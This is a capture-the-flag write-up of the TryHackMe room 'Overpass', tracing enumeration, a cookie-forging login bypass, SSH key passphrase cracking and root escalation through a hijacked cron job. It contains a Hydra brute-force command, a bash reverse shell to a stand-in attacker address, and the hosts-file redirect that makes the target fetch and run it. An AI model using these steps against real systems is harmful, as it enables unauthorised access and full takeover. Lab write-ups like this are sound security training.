 {{Title}}
## **Introduction**

📊 Difficulty : Easy

Overpass is a room on [TryHackMe](https://tryhackme.com?utm_source=chatgpt.com) where users are challenged to gain system access and escalate privileges through a web application. I completed this room as part of my web exploitation CTF streak to strengthen my understanding and methodology in web penetration testing.

Link to the room : http://tryhackme.com/room/overpass

--- 
### **Context**

> _What happens when a group of broke Computer Science students try to make a password manager? Obviously a _perfect_ commercial success!

As always, we first start by enumerating open ports on the target machine using `nmap` :

```
nmap MACHINE_IP
```

![[20250829-Overpass.png]]

We find that the machine is hosting a web server using HTTP. Let's look at the website :

![[20250829-Overpass-1.png]]

After looking around for a bit, I decide to enumerate for hidden directories using ``gobuster`` : 

![[20250829-Overpass-2.png]]

We find the `/admin` directory, which directs us to a page with a login form. My first reflex when finding a login form on a website is to open Burp Suite and Hydra to try and find the credentials to login. In fact, the website also had an About Us page, where the names of the developers were listed. I figured I could use one of the names as a Username, and brute force my way into finding the password. 

The command I ran : 

```
hyra -l Ninja -P wordlist.txt MACHINE_IP http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect credentials"
```

Unfortunately, after long minutes of waiting for Hydra to find something, I figured there must have been something I was missing.

Let's go back a bit. On the `/admin` page, looking at the source code of the page, we find 3 JavaScript files, which can be viewed in the Debugger tab of the Developer Tools.

![[20250829-Overpass-6.png]]

Looking at the ``login.js`` script, we can see that a message saying "Incorrect Credentials" is returned when the user enters incorrect credentials. However, in case of successful login, the script sets a cookie for the client, a SessionToken with a value of "statusOrCookie".

![[20250829-Overpass-5.png|465x388]]

We can try to create ourselves a cookie corresponding to a successful login by going to the Storage tab of the Developer Tools, naming it SessionToken and setting its value to sessionOrCookie.

![[20250829-Overpass-7.png]]

After we refresh the page, we are greeted with a new page :

![[20250829-Overpass-8.png]]

On that page, we can find an RSA private key, which can be used to log into SSH with the username james as stated in the message present on the page. Before that, let's change file permissions to the ones usually used for RSA keys :

```
chmod 600 rsa_key
```

![[20250829-Overpass-9.png]]

We need a passphrase for the key. I tried cracking the passphrase using John the Ripper. Before that though, we need to convert the RSA key so it is readable by John. This can be achieved using the ``ssh2john`` function : 

```
ssh2john rsa_key > rsa_key2
```

With the newly converted key, we can run John to find the passphrase to the RSA key, and log into SSH where we find our first flag : 

![[20250829-Overpass-10.png]]

![[20250829-Overpass-11.png]]

As for the second flag, we have to achieve privilege escalation to reach the ``/root`` directory. Not knowing the password to James's account, using `sudo -l` was out of the question. I tried finding for SUID bits set in root owned binaries, but nothing of interest was found.

The PE vector actually lied in the scheduled tasks in `/etc/crontab` : 

![[20250829-Overpass-12.png]]

As we can see, a file named ``buildscript.sh`` is run every minute by the system.

Looking at `/etc/hosts`, we can see that ``overpass.thm`` is associated with the loopback address 127.0.0.1. We can modify this address to point to our machine.

![[20250829-Overpass-13.png]]

On our machine, we then need to create the ``/downloads/src`` directory as well as the ``buildscript.sh`` file. This file will be executed by the target machine, so we can use it to obtain a shell with root privileges. We'll use the following script : 

```
#!/bin/bash
bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1
```

Giving the target permission to execute the file, we then host a web server to make it accessible to the internet : 

```
chmod +x buildscript.sh
```

```
python3 -m http.server 80
```

Now that the machine can access our payload, we need a listener to be able to get the connection. For that, we can run netcat and set the port to the one we used in the ``buildscript.sh`` file.

```
nc -nlvp PORT
```

And with that, we get a reverse shell with root privilege. All that's left to do is to go to ``/root`` and find our second and final flag.

---
# Conclusion 

This room was very instructive. While it was very basic in its first steps, meaning enumerating ports and directories, it also used a not so common privilege escalation vector in cron jobs. Having to host a web server to make the target access a script located on our local machine was new to me and quite refreshing from Sudos and SUIDs.  